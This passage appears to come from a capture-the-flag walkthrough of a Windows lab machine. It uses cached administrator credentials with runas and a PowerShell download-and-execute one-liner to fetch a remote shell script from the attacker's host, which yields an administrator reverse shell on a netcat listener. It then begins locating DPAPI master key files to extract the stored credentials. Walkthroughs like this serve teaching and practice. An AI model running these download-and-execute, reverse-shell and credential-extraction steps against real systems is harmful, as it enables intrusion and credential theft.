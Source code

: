 
#### Execute

Now I’ll use my telnet shell to execute:

    
    
    C:\Users\security\AppData\Local\Temp>runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.11/shell.ps1')"
    

`(new-object net.webclient).downloadstring('http://10.10.14.11/shell.ps1')`
will generate a web request for the given url and return the text. `iex` will
execute that result as PowerShell.

I see the callback in my `nc` window:

    
    
    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.98] 49164
    Windows PowerShell running as user Administrator on ACCESS
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    
    PS C:\Windows\system32>whoami
    access\administrator
    

From there I can grab `root.txt`:

    
    
    PS C:\users\administrator\desktop> dir
    
    
        Directory: C:\users\administrator\desktop
    
    
    Mode                LastWriteTime     Length Name
    ----                -------------     ------ ----
    -a---         8/21/2018  11:07 PM         32 root.txt
    
    
    PS C:\users\administrator\desktop> type root.txt
    6e1586cc...
    

### Privesc #2 - dpapi creds

As the creds are cached, I can extract them. harmj0y has a [good write-up on
this](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-
offensive-user-dpapi-abuse/).

#### Collect Files

I’ll grab two binary files from windows host, the master key and credentials
file.

First, I’ll find the master key:

    
    
    C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001>dir /a
     Volume in drive C has no label.
     Volume Serial Number is 9C45-DBF0
    